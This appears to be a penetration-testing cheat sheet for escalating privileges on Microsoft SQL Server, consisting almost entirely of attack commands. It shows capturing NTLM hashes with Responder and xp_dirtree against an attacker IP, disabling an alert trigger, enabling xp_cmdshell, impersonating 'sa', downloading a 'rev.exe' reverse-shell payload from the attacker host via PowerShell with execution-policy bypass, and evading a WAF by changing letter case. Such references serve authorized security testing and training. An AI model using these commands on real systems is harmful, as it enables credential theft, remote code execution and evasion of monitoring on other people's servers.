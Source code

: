 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "exploit", "rce", "privesc", "pe"]
---
```


---
### Abuse #1: Steal NTLM hash

```bash
# In our local Linux machine
sudo responder -I tun0
```

```mysql
# Inside mssql terminal
xp_dirtree '\\10.10.14.10\any\thing';
```

```mysql
# Or
use master; exec xp_dirtree '\\10.10.14.10\any\thing';
```

```mysql
# Or
load_file('\\10.10.14.10\any\thing');
```

### Abuse #2: Run xp_cmdshell

```mysql
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```mysql
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```mysql
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```mysql
# RCE
xp_cmdshell whoami
```

### Abuse #3: Impersonate sa to run xp_cmdshell

```mysql
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```mysql
execute as login = 'sa'; reconfigure;
```

```mysql
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```mysql
execute as login = 'sa'; reconfigure;
```

```mysql
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe'
```

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

```mysql
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```

<br>